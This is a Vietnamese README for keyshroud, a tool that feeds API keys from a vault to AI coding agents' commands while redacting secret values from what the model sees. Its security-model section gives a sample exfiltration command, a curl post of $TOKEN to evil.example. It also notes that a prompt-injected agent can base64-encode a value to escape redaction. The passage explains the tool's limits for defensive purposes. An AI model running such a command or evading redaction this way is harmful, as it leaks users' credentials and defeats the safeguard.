

<div align="center">

<h1>
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/dinhkarate/keyshroud/main/assets/brand/lockup-dark.svg">
    
  </picture>
</h1>

**Agent của bạn dùng được key. Nhưng không bao giờ nhìn thấy key.**

keyshroud cho phép Claude Code, Codex, Cursor, Cline, OpenCode, Gemini CLI, pi và omp chạy các lệnh
cần API key, trong khi mọi giá trị secret đến với model chỉ dưới dạng `<redacted:NAME>`.

[](https://www.npmjs.com/package/keyshroud)
[](https://www.npmjs.com/package/keyshroud)
[](https://github.com/dinhkarate/keyshroud/actions/workflows/ci.yml)
[](../LICENSE)
[](../package.json)

[Bắt đầu nhanh](#bắt-đầu-nhanh) · [Secret nằm ở đâu](#secret-của-bạn-nằm-ở-đâu) · [Agent được hỗ trợ](#agent-được-hỗ-trợ) · [Quyền tối thiểu](#quyền-tối-thiểu) · [CLI](#tham-chiếu-cli) · [So sánh](#so-sánh) · [Mô hình bảo mật](#mô-hình-bảo-mật) · [Hỏi đáp](#hỏi-đáp) · [Tài liệu](#tài-liệu) · [Website](https://keyshroud.dev)

[🇬🇧 English](../README.md) · [🇻🇳 Tiếng Việt](README.vi.md) · [🇨🇳 简体中文](README.zh-CN.md) · [🇯🇵 日本語](README.ja-JP.md)

</div>

<p align="center"></p>

```console
$ keyshroud run --mask -- sh -c 'echo "deploying with $GH_TOKEN"; gh api user -q .login'
deploying with <redacted:GH_TOKEN>
dinhkarate
```

Lệnh nhận token thật. Transcript, và model đọc nó, chỉ thấy
`<redacted:GH_TOKEN>`. (Việc che là tự động khi agent chạy lệnh;
`--mask` ép bật trong terminal của người dùng.)

## Vì sao cần keyshroud?

Coding agent cần credential để làm việc thật: `gh`, `npm publish`, CLI của cloud, webhook,
database. Các cách thường dùng để đưa chúng đều bị lộ:

| Cách mọi người làm | Chỗ hỏng |
|---|---|
| Dán key vào chat | Nó nằm trong transcript, log của nhà cung cấp và mọi context window về sau |
| Để trong `.env` | Agent `cat` file khi debug, hoặc commit nó |
| Dùng MCP server của vault | Đa số trả thẳng giá trị plaintext cho model |
| Trả tiền cho secrets manager | `op run` cần gói 1Password, và nó chỉ che những lệnh bạn bọc |

keyshroud đi đường khác: **agent làm việc với tên, lệnh nhận giá trị, và
bất cứ thứ gì lệnh in ra đều được che trước khi model đọc.**

- **Tên, không phải giá trị.** Agent thấy `GH_TOKEN` và `keyshroud://GitHub token`, không bao giờ thấy token.
- **Output được che.** Một giá trị lọt ra stdout hay stderr thành `<redacted:GH_TOKEN>`, trong một
  lệnh bạn bọc và, ở Claude Code và pi, cả trong những lệnh bạn không bọc.
- **Không phải thiết lập gì.** Một file vault mã hoá với khoá trong keychain của hệ điều hành. Không tài khoản, không server.
- **Vault của bạn, nếu bạn có.** Vaultwarden hoặc Bitwarden cho nhiều máy; HashiCorp Vault,
  OpenBao, Infisical, 1Password, AWS, Google Cloud và Azure được đọc tại chỗ, không bao giờ ghi.
- **Miễn phí.** Giấy phép MIT, không telemetry.

## Bắt đầu nhanh

**Cần:** Node.js ≥ 18.19. Không gì khác.

```bash
npm install -g keyshroud

# 1. Lưu một secret: gõ vào prompt có che, không bao giờ hiện ra.
#    Cái đầu tiên tạo vault cục bộ.
keyshroud add --env GH_TOKEN --item "GitHub token"

# 2. Dùng nó
keyshroud run -- gh auth status
keyshroud run -- claude          # khởi động agent với mọi secret đã nối

# 3. Kiểm tra mọi thứ
keyshroud doctor
```

```console
$ keyshroud add --env GH_TOKEN --item "GitHub token"
Paste secret for GH_TOKEN: ****************************************
keyshroud: created the local vault ~/.config/keyshroud/vault.json; its key is in the macOS keychain (keyshroud-vault-9f2c4e6a1b3d5f70), so programs running as you can open it without asking.
created item=GitHub token env=GH_TOKEN targets=~/.config/keyshroud/env.json verified=yes
```

- **Agent có thể khởi động nó.** Không có terminal, `add` mở một hộp thoại nhập ẩn trên desktop:
  agent chạy lệnh, bạn dán giá trị. Nó không bao giờ đi qua chat.
- **Đã có `.env`?** `keyshroud import` chuyển secret của nó vào vault và ghi một
  `.env.refs` gồm các tham chiếu bạn có thể commit.
- **Hoặc để agent tự cài.** Dán câu này vào Claude Code, Codex, Cursor, OpenCode hoặc pi:
  `Read https://keyshroud.dev/install.md and set up keyshroud for me.`

## Bạn nhận được gì

**Giữ giá trị ngoài model**

| | |
|---|---|
| 🙈 **Output được che** | `keyshroud run` thay mọi giá trị secret trong stdout và stderr bằng `<redacted:NAME>`, bất kể exit code, và không bao giờ để một giá trị lọt qua khi bị chia đôi giữa hai chunk. |
| 🪝 **Hook cho agent** | Hook của pi/omp che mọi tool result. Hook `PostToolUse` của Claude Code che mọi kết quả thành công (Bash, Read, Grep, MCP…), và [`keyshroud claude-guard`](#guard-lệnh-thất-bại-cũng-được-che) che những gì một lệnh Bash in ra ngay khi nó được ghi, kể cả lệnh thất bại. |
| 🔌 **MCP server** | Cho client không có shell: `secrets_run`, `secrets_list`, `secrets_request`, `vault_status`. Không tool nào trả về giá trị. |
| ⌨️ **Dán để tạo** | Secret mới đi qua prompt có che trong terminal, hộp thoại nhập ẩn trên desktop khi agent chạy `add`, hoặc popup có che trong pi. Không bao giờ qua chat. |
| 🔎 **`scan`** | Tìm các giá trị trong vault đã lọt vào working tree, trước khi bạn commit. |

**Secret nằm ở đâu**

| | |
|---|---|
| 🔐 **Vault cục bộ** | Một file AES-256-GCM với khoá trong keychain macOS, Linux Secret Service hoặc Windows DPAPI; passphrase ở nơi không có; Touch ID trên Mac nếu bạn muốn được hỏi. |
| 💾 **Sao lưu** | `keyshroud backup` chép vault cục bộ vào một file dưới một passphrase riêng; `keyshroud restore` mang nó về trên máy nào cũng được và nối lại các tên. |
| 🔄 **Đồng bộ** | Vaultwarden trên VPS $5 hay Raspberry Pi, hoặc Bitwarden, khi cùng secret cần đến nhiều máy. |
| 🏢 **Secret manager của team** | `vault://`, `infisical://`, `op://`, `awssecrets://`, `awsssm://`, `gcpsecrets://`, `azurekeyvault://`: nguồn chỉ đọc, được inject và che như mọi secret khác. |

**Làm việc với chúng**

| | |
|---|---|
| 🔗 **Tham chiếu commit được** | `GH_TOKEN=keyshroud://GitHub token` trong file `.env.refs`: tên, không phải giá trị, an toàn để commit. |
| 🎯 **Phạm vi project** | Một `.keyshroud.json` trong repo (`{ "only": ["STRIPE_*", "GH_TOKEN"] }`) thu hẹp những gì `run`, `env` và các agent nhận ở đó về các tên mà project cần. |
| 📄 **`inject`** | Render template `{{ keyshroud://… }}` thành file `0600` cho các tool không đọc được biến môi trường (`.npmrc`, kubeconfig). |
| 🧾 **Audit log** | `audit.jsonl` ghi lại *tên* nào đã được dùng, khi nào, bởi lệnh nào. Không bao giờ ghi giá trị. |
| ⚡ **Nhanh** | Vault cục bộ trả lời trong vài mili giây, offline. Với Vaultwarden: một `bw list items` gộp mỗi session thay vì một `bw get` (~3 s) cho mỗi secret. |

## Tình huống sử dụng

**"Claude Code cứ đọc `.env` của tôi."** Chạy `keyshroud import` để chuyển các giá trị vào vault
và ghi một `.env.refs` với các dòng như `GH_TOKEN=keyshroud://myapp GH_TOKEN`, rồi khởi động agent
bằng `keyshroud run --refs .env.refs -- claude`. Hook của plugin che bất cứ thứ gì còn
lọt vào một tool result.

**"Một lệnh thất bại đã in token của tôi vào transcript."** Bật
[`keyshroud claude-guard`](#guard-lệnh-thất-bại-cũng-được-che): mọi thứ một lệnh Bash in ra
trong Claude Code đều được che ngay khi được ghi, dù lệnh thành công hay thất bại.

**"Công ty tôi giữ secret trong HashiCorp Vault."** `keyshroud source add vault --addr https://vault.example.com`
một lần, rồi `DB_PASSWORD=vault://secret/myapp/db#password` trong `.env.refs`. Agent thấy tên;
giá trị được đọc từ Vault và che trong output. Điều tương tự với
[OpenBao, Infisical, 1Password, AWS, Google Cloud và Azure](#secret-manager-của-team-vault-openbao-infisical-1password-aws-google-cloud-azure).

**"Repo này chỉ nên nhận key của chính nó."** `keyshroud scope --only 'STRIPE_*,GH_TOKEN'` ghi một
[`.keyshroud.json`](#quyền-tối-thiểu-tên-riêng-của-một-project): agent làm việc ở đó không được giao
token của các project khác của bạn.

**"Tôi thích `op run` nhưng không muốn 1Password."** `keyshroud run` là cùng ý tưởng, tham chiếu vào và
output đã che ra, với vault trên máy bạn hoặc trên server bạn tự host.

**"Agent của tôi cần thêm key mới."** Nó chạy `keyshroud add` hoặc gọi `secrets_request` (MCP), và
một hộp thoại nhập ẩn hiện lên trên desktop; trong pi là `/secret`. Bạn dán giá trị ở đó.

## Secret của bạn nằm ở đâu

| | Phù hợp cho | Cần |
|---|---|---|
| [**Vault cục bộ**](#vault-cục-bộ) (mặc định) | Một máy, không cần cài đặt | Không gì |
| [**Vaultwarden hoặc Bitwarden**](#đồng-bộ-nhiều-máy-vaultwarden-hoặc-bitwarden) | Cùng secret trên nhiều máy | Một tài khoản Bitwarden hoặc Vaultwarden của bạn, và CLI `bw` |
| [**Secret manager của team bạn**](#secret-manager-của-team-vault-openbao-infisical-1password-aws-google-cloud-azure) | Secret công ty bạn đã giữ ở đâu đó | Đăng nhập sẵn có của bạn ở đó |

Chúng chạy song song: một tham chiếu nêu vault của nó (`keyshroud://…`, `bw://…`, `vault://…`).

### Vault cục bộ

`~/.config/keyshroud/vault.json` chứa mọi item, mã hoá bằng AES-256-GCM dưới một khoá
256-bit ngẫu nhiên. Tên item cũng được mã hoá. Khoá nằm ở đâu tuỳ máy:

| Máy | Khoá | Mở khoá |
|---|---|---|
| macOS | login keychain | không cần |
| macOS, Touch ID (`KEYSHROUD_VAULT_KEY=secure-enclave`) | bọc vào một khoá trong Secure Enclave | Touch ID khi một lệnh cần secret; một session kéo dài 30 phút |
| Linux có keyring desktop | Secret Service | không cần |
| Windows | DPAPI, gắn với tài khoản Windows của bạn | không cần |
| Docker, server, SSH, Linux không có systemd | sinh từ passphrase (scrypt) | `keyshroud unlock`; một session kéo dài 30 phút |

Không gì có thể khôi phục một khoá đã mất hay một passphrase đã quên, và `vault.json` chép sang
máy khác không mở được ở đó: hãy dùng một bản sao lưu. Thêm ở [docs/local-vault.md](../docs/local-vault.md).

### Sao lưu và khôi phục

```bash
keyshroud backup                           # hỏi passphrase mới, ghi ./keyshroud-backup-<date>.json
keyshroud restore keyshroud-backup-….json  # những gì nó sẽ thêm; --yes để làm thật
```

Bản sao lưu là một file được niêm phong dưới một passphrase bạn chọn, không phải dưới khoá của
máy này, nên nó mở được ở bất cứ đâu. `restore` in ra một kế hoạch tên trước, giữ một item đang có
giá trị khác ở đây trừ khi bạn thêm `--replace`, và nối lại các tên biến: trên một máy mới,
`keyshroud restore FILE --yes` là toàn bộ việc chuyển. Cả hai chỉ chạy trong terminal.
[Chi tiết](../docs/local-vault.md#backup-and-restore).

### Đồng bộ nhiều máy: Vaultwarden hoặc Bitwarden

```bash
npm install -g @bitwarden/cli
bw config server https://vault.example.com     # Vaultwarden tự host; bỏ qua với bitwarden.com
bw login
mkdir -p ~/.config/keyshroud && echo bw > ~/.config/keyshroud/backend   # item mới đi vào đó
keyshroud unlock                                # 30 phút; master password không được lưu
```

`run`, các hook, MCP server và mọi thứ khác hoạt động y như vậy, qua Bitwarden CLI. Chưa có
server? [examples/vaultwarden](../examples/vaultwarden#readme) đi từ một VPS trống đến
`keyshroud doctor` với Docker Compose và Caddy. Session, mở khoá mà không bị hỏi, quay lại
vault cục bộ, và một tài khoản agent riêng nằm ở
[docs/vaultwarden.md](../docs/vaultwarden.md).

### Secret manager của team: Vault, OpenBao, Infisical, 1Password, AWS, Google Cloud, Azure

Một công ty thường đã có sẵn một secret manager. keyshroud đọc từ đó và không bao giờ ghi vào:
một tham chiếu nói secret nào, và không gì được chép vào vault của keyshroud.

```bash
keyshroud source add vault --addr https://vault.example.com    # đọc bằng token của `vault login`
keyshroud wire --env DB_PASSWORD --item 'vault://secret/myapp/db#password'
keyshroud run --only DB_PASSWORD -- ./migrate.sh
```

```dotenv
# .env.refs: an toàn để commit, chỉ có tên
DB_PASSWORD=vault://secret/myapp/db#password
STRIPE_KEY=awssecrets://prod/stripe#api_key
SENTRY_DSN=op://Engineering/Sentry/dsn
```

| Hệ thống | Tham chiếu | Đăng nhập bằng |
|---|---|---|
| HashiCorp Vault, OpenBao (KV v1 và v2) | `vault://<mount>/<path>#<field>` | `source add vault`: token của `vault login`, một token, hoặc AppRole |
| Infisical (cloud hoặc tự host) | `infisical://<project id>/<environment>/[<folder>/]<NAME>` | `source add infisical`: một machine identity |
| AWS Secrets Manager, SSM Parameter Store | `awssecrets://<name or ARN>[#<json key>]`, `awsssm://<parameter>` | CLI `aws` của bạn |
| 1Password | `op://<vault>/<item>/<field>` | CLI `op` của bạn |
| Google Cloud Secret Manager | `gcpsecrets://<project>/<secret>[#<json key>]` | CLI `gcloud` của bạn |
| Azure Key Vault | `azurekeyvault://<vault name>/<secret>[#<json key>]` | CLI `az` của bạn |

Chỉ đọc, chỉ HTTPS, và một tham chiếu không bao giờ có thể nêu một server, nên một `.env.refs` trong
repo được clone không thể gửi token của bạn đi nơi khác. Vault, OpenBao và Infisical được test với
server thật trong CI; các đường `op`, `gcloud` và `az` với CLI giả lập. Mọi tuỳ chọn và giới hạn:
[docs/team-secret-managers.md](../docs/team-secret-managers.md).

## Agent được hỗ trợ

| Agent | Cài đặt | Bạn nhận được |
|---|---|---|
| **Claude Code** | [plugin](#claude-code) | Hook che SessionStart + PostToolUse, skill; [`claude-guard`](#guard-lệnh-thất-bại-cũng-được-che) che cả lệnh thất bại |
| **pi / omp** | [`pi install npm:keyshroud`](#pi--omp) | nạp env, che `tool_result` (cả lệnh lỗi), `/secret` |
| **Codex, OpenCode, Gemini CLI, Cursor agent, Cline** | [`npx skills add dinhkarate/keyshroud`](#agent-khác-có-shell) | skill + CLI với output đã che |
| **Claude Desktop, client chỉ chat** | [JSON `mcpServers`](#mcp-client-không-có-shell) | MCP tool với output đã che |
| **Shell hoặc CI bất kỳ** | `keyshroud run -- <cmd>` | inject env + output đã che |

Agent có shell dùng CLI: nó không tốn tool schema nào trong context, và `keyshroud run` che
output bất kể exit code. MCP server dành cho client không chạy được lệnh.

### Claude Code

```bash
npm install -g keyshroud
```
```text
/plugin marketplace add dinhkarate/keyshroud
/plugin install keyshroud@keyshroud
```

- **Hook SessionStart:** cho Claude biết những *tên* secret nào tồn tại. Nó không bao giờ hỏi mật khẩu.
- **Hook PostToolUse:** viết lại mọi tool result thành công có chứa giá trị secret thành
  `<redacted:NAME>`.
- **Skill:** dạy Claude dùng tên và tham chiếu, và chạy các lệnh dùng secret qua
  `keyshroud run`.

Khởi động Claude qua keyshroud để các lệnh Bash của nó có secret: `keyshroud run -- claude`.
Một item trong vault cũng có thể là API key riêng của Claude Code (`keyshroud claude-setup --item "Anthropic API key"`).
[docs/claude-code.md](../docs/claude-code.md) có phần còn lại.

### Guard: lệnh thất bại cũng được che

```bash
keyshroud claude-guard          # bật (macOS, Linux); có hiệu lực trong session Claude Code mới
keyshroud claude-guard --off
```

Claude Code không thể viết lại output của một lệnh thất bại, nên chỉ hook thì những lệnh đó vẫn
không được che. Khi bật guard, Claude Code khởi động shell của nó qua keyshroud: mỗi lệnh Bash chạy
trong bash hoặc zsh thật của bạn, và những gì nó in ra đi qua một tiến trình che trên đường đến Claude
Code. Một giá trị thành `<redacted:NAME>` dù lệnh thành công, thất bại hay bị ngắt, và
dù nó có chạy qua `keyshroud run` hay không. Nếu không khởi động được tiến trình che, lệnh
không được chạy thay vì chạy không che. Nó tốn khoảng 0,2 s mỗi lệnh.
[Cách hoạt động và giới hạn](../docs/claude-code.md#the-guard-failed-commands-masked-too).

### pi / omp

```bash
pi install npm:keyshroud
```

Extension đưa các secret đã nối vào môi trường của agent trước khi provider auth được giải quyết, che
mọi tool result (thành công hay thất bại) và output của các `!commands` bạn gõ, và thêm `/secret`
(mô tả, xác nhận tên, dán có che). [Chi tiết](../docs/agents.md#pi--omp).

### Agent khác có shell

Codex, OpenCode, Gemini CLI, agent của Cursor, Cline và bất cứ thứ gì khác chạy được lệnh: cài
CLI và skill, thứ dạy agent chạy các lệnh dùng secret dưới dạng `keyshroud run -- …` và
lưu secret mới bằng `keyshroud add`.

```bash
npm install -g keyshroud
npx skills add dinhkarate/keyshroud
```

`npx skills` cần Node.js 22.20+; trên Node cũ hơn, [chép skill](../docs/agents.md#other-agents-with-a-shell)
đi kèm CLI.

### MCP client không có shell

Claude Desktop, client chỉ chat, hoặc một agent bạn không cho chạy lệnh:

```json
{ "mcpServers": { "keyshroud": { "command": "keyshroud", "args": ["mcp"] } } }
```

`secrets_run` chạy một lệnh với secret được inject và trả về exit code cùng output đã che;
`secrets_list`, `secrets_request` và `vault_status` hoàn thiện bộ đó. Không cái nào trả về giá trị.
[Chi tiết](../docs/agents.md#mcp-clients-without-a-shell).

## Quyền tối thiểu

Mặc định `keyshroud run` cấp cho một lệnh mọi secret đã nối. Ba cách thu hẹp:

- **Theo lệnh:** `keyshroud run --only GH_TOKEN -- gh pr list` chỉ inject tên đó, và bỏ
  các tên đã nối khác khỏi những gì lệnh kế thừa. Nếu tên đó không phân giải được (vault đang khoá,
  item không tồn tại), lệnh sẽ không chạy.
- **Theo project:** một file scope, bên dưới.
- **Theo vault:** với Vaultwarden, `keyshroud setup` cấp cho các agent một tài khoản riêng.

### Quyền tối thiểu: tên riêng của một project

```bash
cd ~/code/shop
keyshroud scope --only 'STRIPE_*,GH_TOKEN'   # ghi ./.keyshroud.json
keyshroud scope                              # những gì trong scope ở đây, và bao nhiêu tên không
```

```json
{ "only": ["STRIPE_*", "GH_TOKEN"] }
```

Trong thư mục đó và bên dưới, `run`, `env`, `secrets_run`, shell của pi và các tên Claude Code được
cho biết lúc bắt đầu session đều được thu hẹp về các tên trong scope, và một tên ngoài scope bị từ chối. File
chỉ chứa tên và pattern, nên nó commit được. Việc che không bị thu hẹp: một giá trị ngoài
scope xuất hiện trong output vẫn được che. Một file không đọc được như scope thì không đưa gì vào
scope thay vì đưa mọi thứ. Đây là mặc định chống nhầm lẫn, không phải một bức tường:
[docs/project-scope.md](../docs/project-scope.md).

### Quyền tối thiểu: một tài khoản agent riêng

Với Vaultwarden hoặc Bitwarden, một session đã mở khoá mở toàn bộ vault của bạn. `keyshroud setup --email
you+agent@example.com` cấp cho keyshroud một login `bw` riêng trên một tài khoản chuyên dụng chỉ chứa
những secret agent cần, và `keyshroud migrate` chép các item đã nối sang đó.
[docs/vaultwarden.md](../docs/vaultwarden.md#least-privilege-a-separate-agent-account).

## Tham chiếu CLI

```text
Store     keyshroud add --env NAME --item ITEM        store a new secret (masked prompt or dialog)
          keyshroud import [--yes]                    move a .env into the vault, write .env.refs
          keyshroud rotate --item ITEM                replace a value
          keyshroud wire | unwire | list | rm         manage names and items
Use       keyshroud run [--only A,B] [--refs F] -- <cmd>
          keyshroud inject -i template -o out         render a template into a 0600 file
          keyshroud env                               the names available here
Check     keyshroud doctor | status | scan [paths] | redact < log.txt
Narrow    keyshroud scope [--only A,B_* | --clear]    this directory's .keyshroud.json
Vault     keyshroud unlock | lock | rekey | backup | restore FILE
Sources   keyshroud source [add vault|infisical … | rm …]
Agents    keyshroud mcp | claude-setup | claude-guard [--off] | link-cli
```

| Tham chiếu | Phân giải thành |
|---|---|
| `keyshroud://GitHub token` | giá trị được lưu trong vault cục bộ (`/notes` cho ghi chú của nó) |
| `bw://GitHub CLI token` | mật khẩu của một login Vaultwarden (`/username`, `/notes`, `/totp`, `/fields/<name>`) |
| `vault://secret/myapp/db#password` | một field của một secret KV trong HashiCorp Vault hoặc OpenBao |
| `op://Engineering/Sentry/dsn` | những gì `op read` trả về cho nó (1Password) |
| `awssecrets://prod/stripe#api_key` | một key của một secret JSON trong AWS Secrets Manager |

**Exit code:** `0` ok · `2` usage · `3` vault bị khoá hoặc không khả dụng · `4` thiếu secret hoặc tên
item mơ hồ · `5` từ chối ghi đè trạng thái đã có. `run` thoát với mã của tiến trình con.

Mọi lệnh, flag, dạng tham chiếu và biến môi trường: [docs/cli.md](../docs/cli.md).

## Cách hoạt động

```
              ┌──────────────────────────── your machine ─────────────────────────────┐
              │  vault.json ◄── key: keychain · Secret Service · DPAPI · passphrase   │
              │      │                                                                │
              │      ▼                                                                │
 Vaultwarden ◄┼─bw─ keyshroud ─ resolves keyshroud:// and bw:// refs ─► command's env │
 team vault  ◄┼──── (read-only)                                          │            │
              │      └──── redactor ◄──── stdout / stderr ◄──────────────┘            │
              │                │ <redacted:NAME>                                      │
              └────────────────┼──────────────────────────────────────────────────────┘
                               ▼
                  agent transcript / LLM provider
```

1. **Nối.** Một secret được nối bằng *tên*: `GH_TOKEN → keyshroud://GitHub token`, trong
   `~/.config/keyshroud/env.json` hoặc `.env.refs` của một project. Chỉ tên và tham chiếu được ghi.
2. **Phân giải và inject.** Khi một lệnh chạy, các giá trị được đọc từ vault và đặt vào
   môi trường của tiến trình con. Không bao giờ vào argv, không bao giờ vào một tool result.
3. **Che.** Output của lệnh đi qua một redactor biết mọi giá trị. Các hook của Claude
   Code và guard, chạy ngoài tiến trình đó, làm việc từ một chỉ mục fingerprint HMAC có khoá
   thay vào đó, nên chúng không bao giờ giữ plaintext.

Bản dài: [docs/how-it-works.md](../docs/how-it-works.md).

## So sánh

Các tool cấp secret cho agent rơi vào bốn hướng (theo tài liệu chúng tôi đọc ngày 2026-11-15;
hoan nghênh sửa lỗi trong một issue):

| Hướng | Ví dụ | Model có thấy giá trị không? | Một lệnh bạn không bọc | Bao phủ |
|---|---|---|---|---|
| **Tên vào, output đã che ra** | **keyshroud** | Không: output của tool được che | Cũng được che trong Claude Code (hook, cộng guard cho lệnh thất bại) và pi/omp; các agent khác dựa vào `keyshroud run` | Bất kỳ secret nào một lệnh đọc từ môi trường hoặc một file |
| Một wrapper che tiến trình con của nó | 1Password `op run`, `dotenvx run --redact`, `varlock run`, `secretspec run` | Không từ lệnh được bọc | Không được che | Như trên, cho các lệnh bạn bọc |
| Một MCP server của vault | Bitwarden MCP, HashiCorp Vault MCP, Doppler MCP, Infisical MCP (mặc định) | Có: tool trả về nó | n/a | Tra cứu một secret |
| Một egress proxy với placeholder | Infisical Agent Vault, OneCLI, `fnox proxy`, 1Password cho NVIDIA OpenShell, mask `sandbox.credentials` của Claude Code | Không: agent giữ một placeholder | n/a: giá trị thật không bao giờ ở trong shell | Credential HTTP(S) cho các host bạn cho phép; cần một proxy đọc được request |

keyshroud giữ vault với bạn (một file cục bộ, Vaultwarden của bạn, hoặc manager team bạn vận hành),
không cần tài khoản, và miễn phí. Một egress proxy là tool mạnh hơn trước một agent đối nghịch hoặc
bị prompt injection, cho các credential nó bao phủ; keyshroud bao phủ mật khẩu database, khoá SSH và
ký, và mọi CLI đọc một biến. Chúng kết hợp được. Nếu bạn đã trả tiền cho 1Password,
`op run` và Environments của nó được làm tốt, và keyshroud cũng đọc tham chiếu `op://`.

## Mô hình bảo mật

keyshroud bảo vệ chống lại **lộ vô tình**: secret rơi vào transcript, log của nhà cung cấp,
ảnh chụp màn hình, commit hoặc context của model vì một lệnh đã in chúng.

Nó **không** làm một agent đối nghịch hay bị prompt injection trở nên an toàn. Một agent chạy được
`keyshroud run -- curl https://evil.example -d "$TOKEN"`, hoặc base64-encode một giá trị trước khi in
nó, có thể đưa nó ra ngoài. Nếu đó là mô hình đe doạ của bạn, hãy dùng một egress proxy thay
credential placeholder trên đường truyền, giới hạn secret mỗi session nhận (`--only`, một scope), và giữ
người duyệt lệnh.

Cần biết trước khi dựa vào nó:

- **Khoá nằm ở nơi OS giữ khoá.** Ở chế độ keychain, mọi chương trình chạy dưới bạn đều mở được
  vault cục bộ, kể cả agent. Tạo nó bằng passphrase, hoặc Touch ID trên Mac, để được hỏi.
- **Việc che là khớp chính xác.** Một giá trị một phần hoặc đã biến đổi (`${TOKEN:0:10}`, base64) không được
  che, và các giá trị ngắn hơn 6 ký tự không bao giờ được che.
- **Trong Claude Code, một lệnh thất bại chỉ được che khi bật guard** hoặc khi nó chạy qua
  `keyshroud run`.
- **Scope và guard là mặc định, không phải bức tường.** Một chương trình chạy dưới bạn có thể đổi chúng.
- **Giá trị không bao giờ xuất hiện** trong argv, log, chẩn đoán của chính keyshroud, kết quả MCP, output của hook hay
  audit log. Điều đó được test.

Mọi bảo đảm chúng tôi test và mọi giới hạn đã biết: [docs/security.md](../docs/security.md). Báo
lỗ hổng riêng tư, xem [SECURITY.md](../SECURITY.md).

## Hỏi đáp

**Có cần Vaultwarden không?** Không. Mặc định secret nằm trong một file mã hoá trên máy bạn.
Vaultwarden hoặc Bitwarden là tuỳ chọn, cho cùng secret trên nhiều máy.

**Secret có ra khỏi máy tôi không?** Không với vault cục bộ. keyshroud không có backend riêng và
không gửi telemetry; giá trị đi vào môi trường của lệnh bạn chạy.

**Agent vẫn dùng được key chứ?** Được. Lệnh nhận giá trị thật; chỉ phần chữ model
đọc là bị che.

**Đây có phải sandbox không?** Không. Nó chặn lộ *vô tình*. Xem [mô hình bảo mật](#mô-hình-bảo-mật).

**Không phải Claude Code tự làm được việc này sao?** Một phần, và theo cách khác. Claude Code có thể từ chối đọc
các file như `.env`, và sandbox của nó có thể cho một lệnh thấy placeholder cho một credential và đặt
giá trị thật lên các request đến host bạn cho phép (`sandbox.credentials`, phải bật, chỉ Bash trong sandbox). Nó
không có secret store và không viết lại những gì một tool in ra. keyshroud là store, hoạt động giống nhau
trên các agent, và che output; hai cái kết hợp được.

**Sao không chỉ `.gitignore` file `.env` của tôi?** Cái đó chặn commit, không chặn đọc. Agent đọc `.env` để
debug, và bất cứ gì chúng đọc đều đến nhà cung cấp model.

**Ở chỗ làm chúng tôi dùng HashiCorp Vault (hoặc AWS, 1Password, …). Tôi có phải chuyển secret đi không?** Không.
keyshroud đọc chúng tại chỗ và không bao giờ ghi vào đó.

**Sao lưu vault cục bộ thế nào?** `keyshroud backup`. Một bản chép thường của `vault.json` không phải
bản sao lưu: nó chỉ mở bằng khoá của nó, khoá này ở lại trong key store của máy này.

**Chạy trên Windows được không?** Được, đã test trên Windows 10 với Node 22; guard chỉ có trên macOS và Linux.

Thêm, gồm CI, Docker và nâng cấp từ 0.7: [docs/faq.md](../docs/faq.md).

## Tài liệu

Các trang này cũng có ở [keyshroud.dev/docs](https://keyshroud.dev/docs/), dễ đọc hơn.

| | |
|---|---|
| [Chuyển một project khỏi `.env`](../docs/migrate-from-dotenv.md) | Hướng dẫn: `import`, `.env.refs`, xoá bản plaintext, đồng đội cần làm gì |
| [CI và Docker](../docs/ci-and-docker.md) | Hướng dẫn: vault dùng passphrase trong GitHub Actions, trong Docker build và trong container |
| [Đổi một key đã bị lộ](../docs/rotate-a-key.md) | Hướng dẫn: tìm các bản sao, thay giá trị, những gì tự nhận giá trị mới |
| [Xử lý sự cố](../docs/troubleshooting.md) | Tên không phân giải được, vault bị khoá, giá trị in ra mà không được che |
| [Vault cục bộ](../docs/local-vault.md) | Chế độ khoá, Touch ID, session, sao lưu và khôi phục |
| [Vaultwarden hoặc Bitwarden](../docs/vaultwarden.md) | Thiết lập đồng bộ, session, một tài khoản agent riêng, quay lại vault cục bộ |
| [Secret manager của team](../docs/team-secret-managers.md) | Vault, OpenBao, Infisical, 1Password, AWS, Google Cloud, Azure |
| [Phạm vi project](../docs/project-scope.md) | `.keyshroud.json`: nó thu hẹp gì và không thu hẹp gì |
| [Claude Code](../docs/claude-code.md) | Hook của plugin, `claude-setup`, guard |
| [pi, omp và các agent khác](../docs/agents.md) | Extension pi/omp, skill, MCP server |
| [Tham chiếu CLI](../docs/cli.md) | Mọi lệnh, dạng tham chiếu, exit code và biến môi trường |
| [Cách hoạt động](../docs/how-it-works.md) | Nối, mở khoá, phân giải, inject, che |
| [Mô hình bảo mật](../docs/security.md) | Các bảo đảm chúng tôi test, và giới hạn đã biết |
| [Hỏi đáp](../docs/faq.md) | Windows, nâng cấp, các câu trả lời ngắn |
| [Hướng dẫn cài cho agent](https://keyshroud.dev/install.md) | Hướng dẫn từng bước viết cho AI agent |

Các trang trong docs/ đều bằng tiếng Anh.

## Phát triển

```bash
npm install
npm run check        # typecheck + test (bw giả, không vault thật) + build
# các source với server thật trong Docker (Vault, OpenBao, Infisical, một AWS emulator):
export $(sh test/live-servers.sh) && node --test test/live.test.ts; sh test/live-servers.sh down
node src/cli.ts doctor   # chạy từ source (Node ≥ 22.18 bỏ kiểu)
```

